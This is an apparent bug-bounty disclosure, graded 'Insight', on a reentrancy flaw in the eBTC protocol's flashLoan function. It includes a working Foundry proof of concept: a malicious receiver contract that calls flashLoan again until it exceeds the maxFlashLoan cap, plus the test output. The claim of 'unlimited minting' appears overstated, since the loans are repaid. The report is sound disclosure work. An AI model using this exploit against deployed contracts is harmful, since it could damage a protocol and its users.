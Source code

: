 
# Reentrancy in BorrowerOperations.flashLoan(), enabling an attacker to borrow unlimited eBTC exceeding the maxFlashLoan limit

Submitted on Fri Feb 23 2024 02:12:41 GMT-0400 (Atlantic Standard Time) by @OxG0P1 for [Boost | eBTC](https://immunefi.com/bounty/ebtc-boost/)

Report ID: #28659

Report type: Smart Contract

Report severity: Insight

Target: https://github.com/ebtc-protocol/ebtc/blob/release-0.7/packages/contracts/contracts/BorrowerOperations.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
Due to an reentrancy attack vector, an attacker can flashLoan an unlimited amount of eBTC. For example the attacker can create a malicious contract as the receiver, to execute the attack via the onFlashLoan callback .

The exploit works because BorrowerOperations.flashLoan() is missing a reentrancy protection (modifier).

As a result an unlimited amount of eBTC can be borrowed by an attacker via the flashLoan .

## Vulnerability Details
The BorrowerOperations.sol contract facilitates the execution of flash loans for eBTC. A user is permitted to loan a maximum amount of type(uint112).max. However, a vulnerability exists wherein an attacker can exploit the absence of the Reentrancy modifier in the BorrowerOperations.flashLoan() function. This oversight enables an attacker to potentially mint an infinite amount of eBTC tokens. By leveraging a malicious receiver implementation contract, the attacker can execute this exploit, posing a significant risk to the integrity and security of the eBTC ecosystem.

## Impact Details
An attacker can bypass the maxFlashloan amount and mint infinite amount of eBTC tokens.

## References
https://github.com/ebtc-protocol/ebtc/blob/a96bd000c23425f04c3223a441a625bfb21f6686/packages/contracts/contracts/BorrowerOperations.sol#L1091-L1122

        
## Proof of concept
## Proof of Concept
`Test :`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.17;

import "forge-std/Test.sol";
import {eBTCBaseFixture} from "./BaseFixture.sol";
import {UselessFlashReceiver, eBTCFlashReceiver, FlashLoanSpecReceiver, FlashLoanWrongReturn} from "./utils/Flashloans.sol";

/*
 * Unit Tests for Flashloans
 * Basic Considerations:
 * Flash Fee can go to zero due to rounding, that's marginal
 * Minting is capped at u112 for UniV2 Compatibility, but mostly arbitrary
 */
contract FlashLoanUnitEBTC is eBTCBaseFixture {
    // Flashloans
    UselessFlashReceiver internal uselessReceiver;
    eBTCFlashReceiver internal ebtcReceiver;
    FlashLoanSpecReceiver internal specReceiver;
    FlashLoanWrongReturn internal wrongReturnReceiver;

    function setUp() public override {
        // Base setup
        eBTCBaseFixture.setUp();

        eBTCBaseFixture.connectCoreContracts();
        eBTCBaseFixture.connectLQTYContractsToCore();

        // Create a CDP
        address payable[] memory users;
        users = _utils.createUsers(1);
        address user = users[0];
        uint256 borrowedAmount = _utils.calculateBorrowAmount(
            30 ether,
            priceFeedMock.fetchPrice(),
            COLLATERAL_RATIO
        );
        // Make sure there is no CDPs in the system yet
        assert(sortedCdps.getLast() == "");
        vm.startPrank(user);
        collateral.approve(address(borrowerOperations), type(uint256).max);
        collateral.deposit{value: 30 ether}();
        borrowerOperations.openCdp(borrowedAmount, "hint", "hint", 30 ether);
        vm.stopPrank();

        uselessReceiver = new UselessFlashReceiver();
        ebtcReceiver = new eBTCFlashReceiver();
        specReceiver = new FlashLoanSpecReceiver();
        wrongReturnReceiver = new FlashLoanWrongReturn();
    }



    function testReenter() public{
        uint256 loanAmount = borrowerOperations.maxFlashLoan(address(eBTCToken));
        uint256 fee = borrowerOperations.flashFee(address(eBTCToken), loanAmount);
        deal(address(eBTCToken), address(ebtcReceiver), fee * 3); //Receiver implemntation should have eBTC to pay fee
        borrowerOperations.flashLoan(
            ebtcReceiver,
            address(eBTCToken),
            loanAmount,
            abi.encodePacked(uint256(0))
        );

        uint result = ebtcReceiver.trace();
        console.log(result); // The amount that the attacker minted
        console.log(loanAmount); //Maximum allowed amount that an user can mint

    }
}
```

`Receiver Implementation :`

```solidity
interface IborrowerOperations{
    function flashLoan( 
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external  returns (bool);
}




contract eBTCFlashReceiver is IERC3156FlashBorrower {
    uint  goal =  5192296858534827628530496329220095 * 2; // Goal amount of the attacker which is type(uint112 ).max * 2
    uint public trace; 
    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external override returns (bytes32) {

        uint256 loanAmount = amount;
        trace += amount;
        if(trace < goal){ // Attacker keep calling the flashLoan until goal reached
            
            IborrowerOperations(msg.sender).flashLoan(
                IERC3156FlashBorrower(address(this)),
                address(token),
                loanAmount,
                abi.encodePacked(uint256(0))
        );
        }
        // Approve amount and fee
        IERC20(token).approve(msg.sender, amount + fee);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```

`Test Results :`
```solidity
[PASS] testReenter() (gas: 275631)
Logs:
  10384593717069655257060992658440190
  5192296858534827628530496329220095
```